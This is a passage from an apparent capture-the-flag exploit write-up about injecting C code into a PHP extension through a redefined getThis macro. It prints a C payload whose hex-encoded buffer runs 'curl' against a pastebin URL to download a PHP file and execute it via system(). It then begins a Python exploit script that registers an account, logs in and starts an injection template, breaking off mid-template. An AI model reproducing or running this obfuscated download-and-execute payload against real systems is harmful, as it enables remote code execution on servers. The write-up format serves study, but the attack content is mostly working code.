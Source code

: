 However, we inject the C code outside of any function, so we need to get it executed.\
The easiest way is to put everything in a function and redefine a macro (that is used inside some function).\
One macro that is used in at the start of many functions is `getThis`.\
So the final payload we inject:

```c
#include <stdlib.h>

void* payload(){
    char buf[] = {
        // curl https://pastebin.com/raw/LA14vSiK
        0x63, 0x75, 0x72, 0x6c, 0x20, 0x68, 0x74, 0x74, 0x70, 0x73, 0x3a, 0x2f, 0x2f, 0x70, 0x61, 0x73, 0x74, 0x65, 0x62, 0x69, 0x6e, 0x2e, 0x63, 0x6f, 0x6d, 0x2f, 0x72, 0x61, 0x77, 0x2f, 0x4c, 0x41, 0x31, 0x34, 0x76, 0x53, 0x69, 0x4b,
        // >
        0x20, 0x3e, 0x20,
        // /tmp/payload.php
        0x2f, 0x74, 0x6d, 0x70, 0x2f, 0x70, 0x61, 0x79, 0x6c, 0x6f, 0x61, 0x64, 0x2e, 0x70, 0x68, 0x70,
        // ;
        0x3b, 0x20,
        // php /tmp/payload.php
        0x70, 0x68, 0x70, 0x20, 0x2f, 0x74, 0x6d, 0x70, 0x2f, 0x70, 0x61, 0x79, 0x6c, 0x6f, 0x61, 0x64, 0x2e, 0x70, 0x68, 0x70,
        // terminating nullbyte
        0 
    };
    // curl https://pastebin.com/raw/LA14vSiK > /tmp/payload.php; php /tmp/payload.php;
    system(buf);
    return NULL;
}

#undef getThis
#define getThis payload
```

#### Putting it all together

Now here is our final python code:

```python
import requests
import random
import base64

HOST = "http://localhost:8093/" # replace with actual remote host
s = requests.session()

# make a post request to some enpoint
def api_request(endpoint, data):
    return s.post(f"{HOST}{endpoint}", data=data)

# register account
USERNAME = f"aaaaa{random.randrange(99999999)}"
PASSWORD = "aaaaa"
api_request("/register.php", {"username" : USERNAME, "password": PASSWORD})

# log into account
api_request("/login.php", {"username" : USERNAME, "password": PASSWORD})

# injection template (allows injecting C code)
TEMPLATE = """http\\");
        return true;
    }
}
```
